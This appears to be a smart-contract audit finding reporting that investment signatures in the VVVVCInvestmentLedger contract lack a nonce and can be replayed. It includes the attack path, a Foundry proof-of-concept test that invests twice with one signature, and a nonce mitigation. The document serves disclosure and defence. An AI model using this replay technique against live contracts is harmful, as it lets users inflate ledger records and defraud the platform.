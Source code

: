 Fantastic Cotton Pangolin

High

# User can replay investment signature to add more record to the ledger

### Summary

Investment signature is signed with multiple parameters, and `exchangeRateNumerator` is the numerator of the conversion of payment token to stablecoin (i.e. VVV to USDC).

[VVVVCInvestmentLedger.sol#L60-L73](https://github.com/sherlock-audit/2024-11-vvv-exchange-update/blob/main/vvv-platform-smart-contracts/contracts/vc/VVVVCInvestmentLedger.sol#L60-L73):
```solidity
    struct InvestParams {
        uint256 investmentRound;
        uint256 investmentRoundLimit;
        uint256 investmentRoundStartTimestamp;
        uint256 investmentRoundEndTimestamp;
        address paymentTokenAddress;
        address kycAddress;
        uint256 kycAddressAllocation;
        uint256 amountToInvest;
@>      uint256 exchangeRateNumerator;
        uint256 feeNumerator;
        uint256 deadline;
        bytes signature;
    }
```

Signer may use different `exchangeRateNumerator` value to sign investment signatures, to reflect the payment token price correctly, i.e. the higher the price, the higher the `exchangeRateNumerator`. However, the signature can be replayed to invest with the same `exchangeRateNumerator` value, and user can add more record to the ledger than expected.

### Root Cause

The culprit is that there is no `nonce` in `InvestParams` struct, hence the signature can be replayed. 

### Internal pre-conditions

An investment signature is signed by the signer. 

### External pre-conditions

Within investment round period, the payment token price drops after the investment signature is signed but before the signature is expired

### Attack Path

User replays investment signature to invest with a higher `exchangeRateNumerator`, therefore they can add more record to the ledger than expected.

### Impact

User adds more record to the ledger than expected.

### PoC

```solidity
    function testAudit_replay() public {
        VVVVCInvestmentLedger.InvestParams memory params = generateInvestParamsWithSignature(
            sampleInvestmentRoundIds[0],
            investmentRoundSampleLimit,
            sampleAmountsToInvest[0],
            userPaymentTokenDefaultAllocation,
            exchangeRateNumerator,
            feeNumerator,
            sampleKycAddress,
            activeRoundStartTimestamp,
            activeRoundEndTimestamp
        );

        vm.startPrank(sampleUser, sampleUser);
        PaymentTokenInstance.approve(address(LedgerInstance), params.amountToInvest);
        LedgerInstance.invest(params);

        assertEq(LedgerInstance.kycAddressInvestedPerRound(sampleKycAddress, 1), 900000000);

        PaymentTokenInstance.approve(address(LedgerInstance), params.amountToInvest);
        LedgerInstance.invest(params);

        assertEq(LedgerInstance.kycAddressInvestedPerRound(sampleKycAddress, 1), 900000000 * 2);

        vm.stopPrank();
    }
```


### Mitigation

Add `nonce` to `InvestParams` struct to prevent replaying.